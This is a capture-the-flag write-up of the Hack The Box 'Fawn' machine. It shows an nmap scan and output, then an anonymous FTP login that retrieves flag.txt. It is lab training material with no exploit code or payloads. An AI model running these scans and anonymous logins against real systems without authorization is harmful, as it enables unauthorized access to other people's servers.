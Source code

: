 ![](assets/Pasted%20image%2020240923145936.png)
# Machine Name: Fawn
**Platform:** Hack The Box
**Difficulty:** Very Easy 
**OS:** Linux

## Introduction

* One of the first fundamental machines at HTB. Very very basic
## Recon

* **Nmap Scan:** `nmap fawn.htb -T4 -Pn -sVC -oN ~/Desktop/nmap/fawn.txt`
```bash
$ cat nmap/fawn.txt     
# Nmap 7.94SVN scan initiated Mon Sep 23 14:59:09 2024 as: nmap -T4 -Pn -sVC -oN /home/markryo/Desktop/nmap/fawn.txt fawn.htb
Nmap scan report for fawn.htb (10.129.1.14)
Host is up (0.18s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT      STATE    SERVICE              VERSION
21/tcp    open     ftp                  vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
1050/tcp  filtered java-or-OTGfileshare
1494/tcp  filtered citrix-ica
1687/tcp  filtered nsjtp-ctrl
1755/tcp  filtered wms
5190/tcp  filtered aol
5907/tcp  filtered dsd
55600/tcp filtered unknown
Service Info: OS: Unix
```

- Most ports are closed aside from FTP. Seems like anonymous login is allowed. 

## Vulnerability Identification

* **Vulnerability 1:** anonymous login allowed:
The FTP has the FTP anonymous allowed on, which means anyone can access the FTP using the anonymous login. Looking into the FTP, I was able to find the flag.txt , which is what we were exactly looking for. 

```bash
$ ftp fawn.htb                                          
Connected to fawn.htb.
220 (vsFTPd 3.0.3)
Name (fawn.htb:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||21139|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||59955|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |***************************************************************************************************************|    32       84.91 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.16 KiB/s)
ftp> exit
221 Goodbye.
```

## Lessons Learned

- Always check anonymous login for FTP
## Conclusion

- The machine has one open port in FTP (21). 
- The FTP was anonymous login allowed. 
- The FTP had flag.txt
- Very very easy pwn

**Happy hacking!**